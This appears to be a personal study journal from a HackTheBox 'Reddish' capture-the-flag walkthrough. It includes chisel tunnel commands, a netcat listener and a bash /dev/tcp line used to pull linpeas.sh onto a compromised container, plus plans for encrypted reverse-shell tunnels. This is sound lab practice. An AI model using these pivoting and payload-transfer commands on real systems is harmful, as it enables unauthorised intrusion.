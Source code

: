 I decided to follow up to this point and bit further with Ippsec to get this done to move on to finishing my Beyond Roots today! From [Pre 40:00 to 58:00](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=2342s)
![](hurrayevenfurtherbeyond.png)

![1080](Reddish-ImprovedThinking)

File transfers for Post-Rsync
```bash

# Chisel Pivot for File Transfers initially and the a reverse shell - On NodeRed
nohup ./chisel client 10.10.14.94:10000 10005:127.0.0.1:10005 &

nc -lvnp 10005 < linpeas.sh

bash -c "cat < /dev/tcp/172.19.0.3/10005 > /tmp/linpeas.sh"
# Aaaaaaaaaaaaaawesome when this worked first
```

I really want to try get linpeas.sh to tunnel output to 10005, I tried just a text file.
![](hellofrommanypivotsin.png)

I woops the filename - very Network packet economy Level "Hello did someone order a exfiltration" bad-OPSEC, but very cool 
![](linpeasdelivery.png)

The question Ippsec says we should be asking about the script is that where is the password? We are still in the docker container, but as root.

## Day 13: Return to complete - www

As of Day 13 I know I can finish this today and would I like to do with the flair of one addition to the overall process, which encrypting the entire chisel setup and going very pro and not in the final sections use just one shell. I want really take away a much as I can from using `chisel` and for the other tools try them with comparison to chisel. The major observence was the pure simplicity of xct tradecraft.
1. Create and host a self signed TLS certificate for my encrypted tunnels
2. Continue have nice copy-and-pasted-automated (be more experiemental and local test driven) work flow of reverse-shells and the cert - also just to try
3. Use the `--fingerprint` flag aswell.  Why does not not force usage!

Reddish has demonstrated the need to split Notes unlike xct or Ippsec into X-CMD-by-CMDs and Notes. This helps with visibility of information, but also removes soooo much busy work from doing machines. I am hoping that this machine is last machine where I am crouched in the Writeup and Notes and move to more a report-post completion type scheduling. My reasoning for the current approach was to slow down and focus on the how and why I was doing something whereas now I need to either switch out and state this approach from the beginning like a helped-through or be more focused on the objective of completing machine and problem solving the machine not troubleshooting the what I doing wrong or where I have not found weakness in my fundementals or method or thinking. 

I will keep both sets of the commands for my own triumphant learning curvage, for demonstration and for easy of expansion. [Inspired by Techshoolguru Ariticle](https://dev.to/techschoolguru/how-to-create-sign-ssl-tls-certificates-2aai)
